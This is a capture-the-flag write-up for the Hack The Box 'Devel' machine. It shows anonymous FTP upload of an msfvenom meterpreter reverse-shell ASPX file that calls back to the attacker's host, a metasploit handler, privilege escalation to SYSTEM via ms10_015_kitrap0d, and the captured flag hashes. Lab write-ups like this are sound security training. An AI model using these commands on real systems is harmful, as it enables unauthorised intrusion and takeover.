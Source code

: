 # HTB - Devel

## Enumeration

#### Nmap

Using the following command:

```
nmap -sC -sV -p- -vv --min-rate 10000 10.10.10.5
```

We receive the following output:

![[Pasted image 20250113025557.png]]

#### FTP

From the Nmap scan we see that anonymous ftp access is allowed. So we will enter ftp using the following command:

```
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:randomsensei): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> 
```

Looking at the directories within the FTP server, we see that it looks like the web directories of a Windows server (such as the one on the HTTP port).

```
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

Now we will check if we can use `put` to add a script into the directory:

```
ftp> put test
local: test remote: test
229 Entering Extended Passive Mode (|||49167|)
125 Data connection already open; Transfer starting.
     0        0.00 KiB/s 
226 Transfer complete.
ftp> ls
229 Entering Extended Passive Mode (|||49168|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-12-25  06:13PM                    0 test
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

Here we see that we can do it, but rather than finding and exploit online or creating a new exploit ourselves, we know that we can place a `.aspx` script that will run meterpreter which will help in the post-exploitation phase.

## Exploit

To obtain shell, we will make use of msfvenom in the following command:

```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o devel.aspx LHOST=10.10.16.16 LPORT=4444
```

Now we have the shell file, we will now place this in the ftp server by doing the following:

```
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:randomsensei): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put devel.aspx
local: devel.aspx remote: devel.aspx
229 Entering Extended Passive Mode (|||49238|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************|  2926       48.95 MiB/s    --:-- ETA
226 Transfer complete.
2926 bytes sent in 00:00 (50.12 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49239|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
01-13-25  04:59PM                 2926 devel.aspx
03-17-17  04:37PM                  689 iisstart.htm
01-12-25  06:13PM                    0 test
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

Now we will head into msfconsole and run the listener handler to capture the reverse shell.
We will run the following module:

```
msfconsole
use exploit/multi/handler
set LHOST 10.10.16.16
set payload windows/meterpreter/reverse_tcp
exploit
```

Now we will head to the website and to the devel.aspx directory on `http://10.10.10.5/devel.aspx`.
Now we receive the connection in our metasploit handler.

```
[*] Started reverse TCP handler on 10.10.16.16:4444 
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.16.16:4444 -> 10.10.10.5:49159) at 2025-01-13 12:10:58 +1100

meterpreter > ls
Listing: c:\windows\system32\inetsrv
```

Now that we have access into the windows system as the user:

```
getuid
Server username: IIS APPPOOL\Web
```

Checking the files on the system, at the Users directory we see the babis and Administrator directories, however, with our current privileges we cannot access those directories. 

## Privilege Escalation

Now we need to attempt to escalate privileges, due to the fact that we are using a meterpreter session, we are able to background the session and run post exploitation payloads to attempt the escalate our privileges. To do so we will use the `local_exploit_suggester` exploit.

```
bg
use post/multi/recon/local_exploit_suggester
set SESSION 1
exploit
```

![[Pasted image 20250113122112.png]]

From the output we see many exploits that say that they may work. We will go through all of the exploits to see if any actually are able to escalate our privileges. Eventually we find a module that is actually able to escalate privileges because it shows a new meterpreter shell:

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST 10.10.16.16
exploit
[*] Started reverse TCP handler on 10.10.16.16:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2452 launched.
[*] Reflectively injecting the DLL into 2452...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.16.16:4444 -> 10.10.10.5:49161) at 2025-01-13 12:24:49 +1100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

So using the `ms10_015_kitrap0d` module we were able to escalate our privileges. 
Now we can head to the babis Desktop at the `C:\Users\babis\Desktop`. There we see the user.txt file:

```
cd C:\Users\babis\Desktop
cat user.txt
939f318c300aa25a6c1b55def5f6ca3d
```

Now we can head to the Administrator's Desktop at the `C:\Users\Administrator\Desktop`. There we see the root.txt file:

```
cd C:\Users\Administrator\Desktop
cat root.txt
26a79867895cbac3446088e6ad8ad094
```
